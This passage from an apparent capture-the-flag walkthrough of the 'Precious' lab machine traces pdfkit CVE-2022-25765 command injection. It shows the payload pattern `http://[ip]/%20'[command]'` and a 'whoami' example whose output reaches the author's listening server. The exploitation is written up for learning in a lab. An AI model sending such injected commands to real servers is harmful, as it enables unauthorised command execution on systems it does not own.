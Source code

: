 Then, I enter my IP address as a http:// address and click **Submit**. This generates a PDF document based on the directory the web server is located. 

<p>
<img src="https://i.imgur.com/TFYeCSB.png" height="80%" width="80%" alt=""/>
</p>

<p>
<img src="https://i.imgur.com/aqj3rIR.png" height="80%" width="80%" alt=""/>
</p>

I then have a look at the metadata of the PDF (after downloading it) using `exiftool`. Here I see that the PDF was generated by `pdfkit v0.8.6`. 

<p>
<img src="https://i.imgur.com/Ut03h7H.png" height="80%" width="80%" alt=""/>
</p>

At this stage I do a bit of research into Phusion Passenger and pdfkit for any known vulnerabilities. Phusion Passenger turns up nothing helpful. On the other hand, the version of pdfkit that's running on this web server has got a critical vulnerability. Snyk has a short CVE description on the  Proof of Concept for this vulnerability. CVE-2022-25765 is a command injection vulnerability.

> **Command injection**: is listed as A03:Injection on the OWASP Top 10 list of web vulnerabilities. Basically, this vulnerability type allows an attacker to execute code on the system. OS command injection, which is what is exploitable on this machine, is when you are able to run commands that the actual OS behind the web service. This means that an attacker is able to access the server because the web server interprets requests made to it as commands for the system and not queries that run on the application that the user is interacting with. This can be due to poor practices in securing code by leaving user input unsanitised. Or it may be that functions and methods are used that are known to be vulnerable to this kind of attack. 

In the case of Precious, pdfkit has a critical vulnerability that allows an attacker to remotely execute arbitrary code on the host OS. In terms of complexity, this attack is not that complex as it requires you to query the server at the end of your uri source e.g. `http://[ip]/%20'[command]'` ➡️ `http://10.10.14.19/%20'whoami'` See the screenshot below.

<p>
<img src="https://i.imgur.com/4yMUeQT.png" height="80%" width="80%" alt=""/>
</p>

Since we've been running our python3 server to pull data for the pdf we can observe the requests there. I tried to use Burpsuite to view responses but it wouldn't list out the responses as clearly as in the CLI. I enter what is shown in the above screenshot and recieved an error on the web page but in my server I received the response of the server disclosing the id of the user running the server. In this case it's "Ruby". "Ruby" has the UID of 1001 which means that there's another created user (as a opposed to root) on the server.

<p>
<img src="https://i.imgur.com/82AVDqk.png" height="80%" width="80%" alt=""/>
</p>

# Initial Foothold
